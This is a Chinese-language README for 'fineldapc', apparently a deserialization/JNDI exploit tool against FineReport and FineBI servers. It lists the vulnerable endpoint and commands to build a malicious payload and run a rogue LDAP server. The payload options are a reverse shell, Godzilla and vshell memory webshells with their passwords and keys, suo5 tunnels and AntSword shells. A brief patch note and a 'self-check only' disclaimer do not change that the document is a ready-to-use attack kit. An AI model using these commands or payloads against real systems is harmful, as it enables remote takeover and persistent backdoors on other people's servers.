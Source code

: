 ### fineldapc

```shell
   ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意bin：java -jar fineldapc.jar -bin  [rmi|ldap]://host:port/xxx

开启恶意ldap：java -jar fineldapc.jar -ldap <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
起恶意ldap 填写端口要加载class，或者 resershell:127.0.0.1#8888 进行反弹shell（win/linux 都行），FILE:filepath 用于返回指定的字节流。

生成bin

![image-20240901233223069](README/image-20240901233223069.png)

开启起ldap服务

![image-20240901233310493](README/image-20240901233310493.png)

攻击

![image-20240901232757401](README/image-20240901232757401.png)

**生产千万不要使用vshell(agent)**

### 原理

https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 修复
官网确认 2024-05以前版本受到影响，升级之后版本不收此漏洞影响。

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
